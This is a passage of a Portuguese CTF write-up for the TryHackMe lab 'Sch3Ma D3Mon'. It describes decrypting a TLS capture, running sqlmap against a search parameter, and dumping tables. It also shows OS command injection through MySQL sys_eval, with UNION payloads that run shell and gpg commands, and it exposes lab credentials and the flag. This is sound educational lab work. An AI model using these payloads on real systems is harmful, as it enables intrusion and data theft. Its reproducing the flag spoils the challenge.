










# 🐉 TryHack3M: Sch3Ma D3Mon — CTF Writeup
### TryHackMe | Web Exploitation · SQL Injection (UNION/Boolean/Error/Time-based) · OS Command Injection via SQLi · Investigação de Marketplace de Malware

---

| **Analista**          | Mauricio Robert                                                                        |
|-----------------------|----------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                      |
| **Data do Relatório** | 25/08/2026                                                                             |
| **Data do Pentest**   | 24/08/2026 · 17:31 – 25/08/2026 · 01:35 (GMT+0000)                                     |
| **Alvo**              | `10.64.153.228:8000` (aplicação) / `10.65.171.82:8000` (endpoint `os_sqli.php`) — TryHackMe · TryHack3M: Sch3Ma D3Mon |
| **Classificação**     | CONFIDENCIAL                                                                           |
| **Ferramentas**       | Wireshark · sqlmap · Navegador (exploração manual de SQLi/OS Command Injection) · GnuPG (gpg) · OSINT interno (dump de tabelas) |
| **Plataforma**        | TryHackMe — Web Exploitation / SQL Injection                                           |

---

## 🔍 Resumo Executivo

Este relatório documenta o comprometimento completo do desafio **TryHack3M: Sch3Ma D3Mon** (TryHackMe), um cenário centrado inteiramente em **SQL Injection** contra o **Mayh3M Marketplace**, um marketplace fictício que revende produtos ilícitos, incluindo malware sob encomenda. A cadeia de ataque teve início com a **análise de uma captura de tráfego (PCAP)** em Wireshark, na qual, a partir de um arquivo de chave pré-mestre TLS (`(Pre)-Master-Secret log filename`), foi possível **decriptar o tráfego HTTPS** da aplicação e extrair, em texto claro, tanto **credenciais de login** (`uid=lannister` / `password=hrpTfL42wMv3`) quanto uma **requisição POST para `/searchproducts.php`** contendo o parâmetro `searchitem`. Essa requisição foi exportada como `req.txt` e utilizada como base para exploração de **SQL Injection**, primeiro validada manualmente (contagem de colunas via `UNION SELECT`) e, em seguida, automatizada com **sqlmap**, que confirmou o parâmetro `searchitem` como injetável (boolean-based, error-based, time-based e UNION query, back-end **MySQL ≥ 5.6**) e listou as bases de dados disponíveis, entre elas **`mayh3Mmarketplace`**. O dump das tabelas dessa base revelou, na tabela `unlisted_products`, uma rota oculta e propositalmente não referenciada pela aplicação (`os_sqli.php` — descrita como "vulnerabilty"/"do not navigate to"), e, na tabela `easter_egg`, uma mensagem de reconhecimento ("Impressive snooping! Go check it out ;)") apontando para a página **`halloffame.php`**. A exploração da rota oculta **`os_sqli.php`** revelou uma segunda falha, mais crítica: **injeção de comandos do sistema operacional através de SQL Injection**, viabilizada pela função `sys_eval()` do MySQL embutida na consulta vulnerável, permitindo execução arbitrária de comandos (`pwd`, `ls`, `gpg`, `printf`, além do compilador **Nim**) diretamente no servidor. Com esse acesso, o diretório `/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/` foi enumerado, revelando um pacote de malware em desenvolvimento (`build.sh`, `config.ini`, `mmmbar.nim`, `readme.txt`). Em paralelo, o dump da tabela **`transactions`** (colunas `bcoin_sender_address`, `bcoin_recipient_address`, `transaction_number`, entre outras) permitiu correlacionar a **transação nº 3000000** a um endereço de carteira Bitcoin específico (`eqFN5vBg4n2t4xGsJF7BYNWMtTaVA1muES`), o qual se revelou ser a **passphrase de descriptografia GPG** de um recibo (`/home/receipts/3000000.txt.gpg`) referente à compra do próprio pacote de malware identificado. Por fim, a alteração do arquivo `config.ini` (habilitando `debug=true` via `sys_eval` + `printf`) e a execução do comando de build do compilador **Nim** sobre `mmmbar.nim` — através do mesmo canal de OS Command Injection — desencadearam a compilação do malware em modo debug, cujo output revelou a **flag do desafio**: `THM{3FDbU2nNy2FW7yMvMoH6WTMMM}`.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                          | Versão / Detalhe            | Finalidade                                                                             |
|--------------------------------------|-----------------------------|-----------------------------------------------------------------------------------------|
| **Wireshark**                          | -                            | Decriptação de tráfego TLS via chave pré-mestre e extração de requisições HTTP em claro |
| **sqlmap**                             | 1.10.8#stable                | Confirmação e automação da exploração de SQL Injection no parâmetro `searchitem`, enumeração de bases/tabelas/colunas e dump de dados |
| **Navegador (Firefox/Kali)**          | -                            | Exploração manual da SQLi (UNION-based) e do endpoint `os_sqli.php` (OS Command Injection via `sys_eval`) |
| **GnuPG (gpg)**                       | -                            | Descriptografia do recibo de transação (`3000000.txt.gpg`), utilizando a carteira Bitcoin como passphrase |
| **Compilador Nim**                    | -                            | Compilação (build) do artefato de malware `mmmbar.nim`, revelando a flag em modo debug   |

---

## 📋 Fases de Comprometimento

### FASE 1 — Análise de Tráfego Capturado (Wireshark)

A investigação teve início com a análise de uma captura de pacotes (`mayh3Mmarket.pcapng`) do tráfego da aplicação alvo. Como o tráfego principal ocorria sobre **TLSv1.3** (porta 8443), foi necessário configurar o Wireshark para decriptação, apontando o campo **(Pre)-Master-Secret log filename** para o arquivo de chaves de sessão correspondente (`Preferences → Protocols → TLS`):

```
(Pre)-Master-Secret log filename: .../Downloads/sch3MaD3Mon-stage1/ssl-key.log
```

Com a decriptação ativa, o filtro `http.request.method == "POST"` isolou as requisições relevantes, revelando duas rotas de interesse:

```
POST /login.php?msg=1 HTTP/1.1
POST /searchproducts.php HTTP/1.1  (application/x-www-form-urlencoded)
```

A inspeção do conteúdo decriptado (aba **Decrypted TLS**) da requisição de login expôs credenciais em texto claro submetidas ao formulário:

```
Form item: "uid" = "lannister"
Form item: "password" = "hrpTfL42wMv3"
```

Em seguida, a requisição para `/searchproducts.php` foi identificada como o ponto de entrada de dados controlado pelo usuário (parâmetro `searchitem`), sendo exportada para um arquivo de requisição bruto (`req.txt`) para uso posterior com o **sqlmap**:

```bash
cat req.txt
```
```
POST /searchproducts.php HTTP/1.1
Host: 10.64.153.228:8000
...
Cookie: PHPSESSID=862e2ce83d90effb7575172d1e3bd69e
Connection: keep-alive
Upgrade-Insecure-Requests: 1

searchitem=test*
```


> 🚨 **Achado: credenciais `lannister:hrpTfL42wMv3` expostas em tráfego decriptado + parâmetro `searchitem` (POST `/searchproducts.php`) identificado como superfície de entrada para exploração.**

---

### FASE 2 — Validação Manual da Injeção (UNION-based)

Antes de automatizar a exploração, a aplicação foi analisada manualmente para determinar o número de colunas retornadas pela consulta original, seguindo a orientação de que `UNION` exige o mesmo número de colunas entre as instruções `SELECT` (podendo-se usar `null` no lugar de colunas nomeadas). A tabela de resultados do "Search for a product" mapeia diretamente para as colunas da consulta:

| Coluna | Campo exibido      |
|--------|--------------------|
| 2      | Product Name        |
| 3      | Product Type         |
| 4      | Description           |
| 5      | Price (in USD)        |

A confirmação de que a consulta original utiliza **5 colunas** (a 1ª presumivelmente um identificador não exibido) foi posteriormente corroborada de forma automatizada pelo sqlmap (`MySQL UNION query (NULL) – 5 columns`), validando a hipótese formulada manualmente.

---

### FASE 3 — Automatização com sqlmap: Confirmação da Injeção e Enumeração de Bases

Com o `req.txt` em mãos, o **sqlmap** foi apontado diretamente para a requisição capturada, usando o parâmetro `searchitem` como alvo:

```bash
sqlmap -r req.txt -p searchitem --batch
```

```
[INFO] testing connection to the target URL
[INFO] heuristic (basic) test shows that (custom) POST parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[INFO] (custom) POST parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="go")
[INFO] (custom) POST parameter '#1*' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[INFO] target URL appears to have 5 columns in query

Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Type: error-based
    Type: time-based blind
    Type: UNION query

[INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.52, PHP 7.3.33
back-end DBMS: MySQL >= 5.6
```

Confirmada a injeção em **quatro técnicas distintas** (boolean-based, error-based, time-based e UNION-based), o próximo passo foi enumerar as bases de dados disponíveis no servidor:

```
available databases [6]:
[*] information_schema
[*] mayh3Mmarketplace
[*] mysql
[*] performance_schema
[*] sqlitraining
[*] sys
```


A base **`mayh3Mmarketplace`** foi identificada como o alvo de interesse direto, correspondente à aplicação em análise.

> 🚨 **Vulnerabilidade confirmada: SQL Injection não autenticada no parâmetro `searchitem` de `/searchproducts.php` — boolean-based, error-based, time-based e UNION query (MySQL ≥ 5.6).**

---

### FASE 4 — Dump da Tabela `unlisted_products`: Rota Oculta Encontrada

Com a base identificada, o sqlmap foi utilizado para enumerar e extrair a tabela **`unlisted_products`**, cujo nome já sugeria conter itens não listados publicamente na aplicação:

```bash
sqlmap -r req.txt -p searchitem \
  -D mayh3Mmarketplace \
  -T unlisted_products \
  --dump --batch
```

```
Database: mayh3Mmarketplace
Table: unlisted_products
[1 entry]
+----+-------+--------------+---------------+------------------+
| id | price | product_name | product_type  | description      |
+----+-------+--------------+---------------+------------------+
| 1  | 0     | os_sqli.php  | vulnerabilty  | do not navigate to|
+----+-------+--------------+---------------+------------------+
```

O registro revelou explicitamente uma **rota oculta e não referenciada** pela aplicação: **`os_sqli.php`**, classificada pelos próprios desenvolvedores (fictícios) como uma "vulnerabilidade" que "não deveria ser navegada" — um forte indício de uma segunda superfície de ataque a ser explorada.


> 🚨 **Achado crítico: caminho oculto `os_sqli.php` descoberto via dump de tabela, indicando uma rota vulnerável adicional não exposta pela navegação normal da aplicação.**

---

### FASE 5 — Dump da Tabela `easter_egg`: Confirmação por Meio de Fácil Descoberto

Em paralelo, a tabela **`easter_egg`** também foi extraída, revelando uma mensagem deixada intencionalmente para quem estivesse investigando o banco de dados a fundo:

```bash
sqlmap -r req.txt -p searchitem -D mayh3Mmarketplace -T easter_egg --dump --batch
```

```
Database: mayh3Mmarketplace
Table: easter_egg
[1 entry]
+----------------------------------+---------------+
| message                          | url_path      |
+----------------------------------+---------------+
| Impressive snooping! Go check it | halloffame.php|
| out ;)                           |               |
+----------------------------------+---------------+
```


Navegando até **`halloffame.php`**, a aplicação exibiu uma página de "Hall of Fame" com estatísticas estáticas (Leaderboard, Most Completed Rooms, Longest Streak, Oldest Members), sem impacto direto na exploração, mas confirmando o acesso completo ao schema do banco de dados e validando a metodologia de enumeração adotada.

---

### FASE 6 — Exploração de `os_sqli.php`: OS Command Injection via SQL Injection

Com a rota oculta em mãos, o endpoint **`os_sqli.php`** foi acessado diretamente. A análise do parâmetro `user` demonstrou que a aplicação concatenava a entrada diretamente em uma consulta SQL que, por sua vez, chamava a função `sys_eval()` — um recurso de UDF (User Defined Function) do MySQL utilizado para **executar comandos arbitrários do sistema operacional** a partir do próprio banco de dados:

```bash
GET /os_sqli.php?user=user' union select null,null,null,null,sys_eval('pwd') -- //
```

```
Description: /var/lib/mysql
```

O teste confirmou **execução de comandos do SO diretamente através da injeção SQL**, elevando o impacto da vulnerabilidade de simples extração de dados para **execução remota de comandos (RCE)** no contexto do processo do MySQL.


> 🚨 **Vulnerabilidade crítica: OS Command Injection via SQL Injection em `os_sqli.php`, através da função `sys_eval()`, permitindo execução arbitrária de comandos no servidor.**

---

### FASE 7 — Enumeração do Sistema de Arquivos: Marketplace de Malware

Utilizando o mesmo vetor (`sys_eval`), o diretório de produtos da aplicação foi enumerado, revelando a estrutura de um marketplace de malware sob encomenda:

```bash
GET /os_sqli.php?user=user' union select null,null,null,null,sys_eval("ls /home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0") -- //
```

```
Description: build.sh config.ini mmmbar.nim readme.txt
```

O diretório `/home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0/` — nomeado a partir do vendedor fictício **"MisterMeist3r"** — continha um pacote completo de desenvolvimento de malware: um script de build (`build.sh`), um arquivo de configuração (`config.ini`), o código-fonte de um malware escrito em **Nim** (`mmmbar.nim`) e instruções (`readme.txt`).

---

### FASE 8 — Dump da Tabela `transactions`: Rastreamento das Carteiras Bitcoin

Para correlacionar o produto de malware encontrado a uma transação financeira, a tabela **`transactions`** foi enumerada estruturalmente:

```bash
sqlmap -r req.txt -p searchitem -D mayh3Mmarketplace -T transactions --columns --batch
```

```
Database: mayh3Mmarketplace
Table: transactions
[5 columns]
+-------------------------+--------------+
| Column                  | Type         |
+-------------------------+--------------+
| bcoin_recipient_address | varchar(35)  |
| bcoin_sender_address    | varchar(35)  |
| purchase_timestamp      | varchar(19)  |
| transaction_ammount     | int          |
| transaction_number      | int          |
+-------------------------+--------------+
```


Em seguida, as colunas `transaction_number` e `bcoin_sender_address` foram extraídas seletivamente:

```bash
sqlmap -r req.txt -p searchitem -D mayh3Mmarketplace -T transactions \
  -C transaction_number,bcoin_sender_address --dump --batch
```

```
Database: mayh3Mmarketplace
Table: transactions
[9 entries]
+--------------------+--------------------------------------+
| transaction_number | bcoin_sender_address                  |
+--------------------+--------------------------------------+
| 2999992            | VqJABTN4tNF7xgGS4uBvnsmWEMtY1e5aF2     |
| 2999993            | utEBtAFYFgNM5vB2naSV4xqe7m4WN1GJTs     |
| 2999994            | EaNqVM2JNmW7eY1gSAt5TBuGBFt44vxFns     |
| 2999995            | tu1nEFs244mJ7xSYvG5FAMNqVeTgNBtWBa     |
| 2999996            | StN5NJavqY17FFWEgmneMGs2uTxAtVBB44     |
| 2999997            | N5aTtgnFvMuNB4eWtG2J7qYFSEAmBxs14V     |
| 2999998            | tJS45qAF1gMumGxFstTEVBWBve2YN7nNa4     |
| 2999999            | MFa7N2u1Egnt4Ymse5GS4TFtBVJvBqANWx     |
| 3000000            | eqFN5vBg4n2t4xGsJF7BYNWMtTaVA1muES     |
+--------------------+--------------------------------------+
```


A transação de número **3000000** — coincidindo com um recibo previamente localizado no sistema de arquivos (`/home/receipts/3000000.txt.gpg`) — foi identificada como o elo entre a compra e o pacote de malware encontrado na Fase 7.

---

### FASE 9 — Descriptografia do Recibo: Confirmação da Compra do Malware

O arquivo criptografado `/home/receipts/3000000.txt.gpg` foi descriptografado via `sys_eval`, utilizando o endereço de carteira `bcoin_sender_address` da transação **3000000** como **passphrase GPG**:

```bash
GET /os_sqli.php?user=user' union select null,null,null,null,sys_eval("gpg --batch --yes --passphrase eqFN5vBg4n2t4xGsJF7BYNWMtTaVA1muES --decrypt /home/receipts/3000000.txt.gpg") -- //
```

```
--- Mayh3M Marketplace --- Invoice: 3000000 Date: 04/02/2024 06:28:48
Transaction Details: Purchase made through our online store front!
Transaction Number: 3000000
Sender Address: eqFN5vBg4n2t4xGsJF7BYNWMtTaVA1muES
Recipient Address: tWuNGTaSBNlq7mvxF5AetFq4B2VE41MnYs
Transaction Time: 04/02/2024 06:28:48
Product: /home/products/malware/4sale/pal4t1n3/MisterMeist3r/2DC6C0
Total Amount: 865345
Thank you for su[...]
```

O recibo confirmou de forma definitiva que a transação **3000000** correspondeu à **compra do pacote de malware** identificado na Fase 7 (`.../MisterMeist3r/2DC6C0`), fechando a cadeia de evidências entre o registro financeiro (tabela `transactions`) e o artefato malicioso hospedado no servidor.


> 🚨 **Correlação confirmada: transação `3000000` (recibo GPG) associada à compra do pacote de malware `MisterMeist3r/2DC6C0`, cuja passphrase de descriptografia era o próprio endereço de carteira do remetente.**

---

### FASE 10 — Habilitando Debug e Compilando o Malware: Captura da Flag

Com acesso total ao sistema via `sys_eval`, o arquivo de configuração `config.ini` do pacote de malware foi sobrescrito para habilitar o modo de depuração:



```bash
